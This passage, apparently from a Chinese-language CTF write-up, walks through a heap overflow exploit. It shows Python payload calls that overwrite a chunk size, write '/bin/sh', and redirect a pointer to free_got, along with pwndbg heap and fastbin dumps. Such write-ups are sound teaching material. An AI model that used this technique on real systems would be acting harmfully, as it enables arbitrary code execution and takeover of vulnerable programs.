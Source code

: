 然后修改 chunk0 溢出修改下一个 chunk size，这里把 ``/bin/sh\x00`` 也一起写入：

```python
edit(0,"/bin/sh\x00".ljust(0x18,'a') + "\x41")
```

修改后 chunk1 结构体就将 chunk1 content 也包含进来了，释放的时候会放入 0x40 的 fastbin 中。

堆结构如下：

```
pwndbg> x /20gx 0xac4000
0xac4000:	0x0000000000000000	0x0000000000000021
0xac4010:	0x0000000000000018	0x0000000000ac4030
0xac4020:	0x0000000000000000	0x0000000000000021
0xac4030:	0x0068732f6e69622f	0x6161616161616161
0xac4040:	0x6161616161616161	0x0000000000000041	//chunk1 struct
0xac4050:	0x0000000000000010	0x0000000000ac4070
0xac4060:	0x0000000000000000	0x0000000000000021	//chunk1 content
0xac4070:	0x6262626262626262	0x6262626262626262
0xac4080:	0x0000000000000000	0x0000000000020f81
0xac4090:	0x0000000000000000	0x0000000000000000
```

释放 chunk1

```python
free(1)
```

```
pwndbg> bin
fastbins
0x20: 0xac4060 ◂— 0x0		//chunk1 content
0x30: 0x0
0x40: 0xac4040 ◂— 0x0		//chunk1 struct
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
```

将这两个空闲堆申请出来，由于 malloc 机制，申请相同大小的 chunk 才会用 fastbin 中空闲内存。0x20 会用作新 chunk 的结构体，0x40 会用作新 chunk 的 content 。

```python
create(0x30,'a'*0x18+p64(0x21)+p64(0x30)+p64(free_got))
```

这里为了方便用 chunk1' 表示新申请的堆，实际上这个堆序号还是 1 ，堆结构如下：

```
pwndbg> x /20gx 0xac4000
0xac4000:	0x0000000000000000	0x0000000000000021
0xac4010:	0x0000000000000018	0x0000000000ac4030
0xac4020:	0x0000000000000000	0x0000000000000021
0xac4030:	0x0068732f6e69622f	0x6161616161616161
0xac4040:	0x6161616161616161	0x0000000000000041	//chunk1' content
0xac4050:	0x6161616161616161	0x6161616161616161
0xac4060:	0x6161616161616161	0x0000000000000021	//chunk1' struct
0xac4070:	0x0000000000000030	0x0000000000602018
0xac4080:	0x0000000000000000	0x0000000000020f81
0xac4090:	0x0000000000000000	0x0000000000000000
```
